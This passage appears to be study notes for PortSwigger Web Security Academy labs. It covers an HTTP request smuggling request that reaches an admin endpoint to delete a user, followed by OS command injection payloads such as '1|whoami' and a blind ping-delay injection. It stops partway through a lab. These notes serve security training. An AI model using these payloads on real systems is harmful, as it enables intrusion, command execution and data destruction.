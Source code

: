x=1
0


Exploit 2:

POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


3) OS Command Injection:
   
       # Lab 01: OS command injectionhttps://portswigger.net/web-security/os-command-injection, simple case

	Technique : 
	The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.
		
	Exploit:
		Modify the `storeID` parameter, giving it the value `1|whoami`

	Lab 02: # Blind OS command injectionhttps://portswigger.net/web-security/os-command-injection with time delays

	Technique : 
	The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.
		
	Exploit:
		- Modify the `email` parameter, changing it to:
    
	    email=x||ping+-c+10+127.0.0.1||

	 Lab 03: Blind OS command injectionhttps://portswigger.net/web-security/os-command-injection with output redirection

	Technique : 
	The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command.
	
	The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.
		
	Exploit:
		- Modify the `email` parameter, changing it to:
    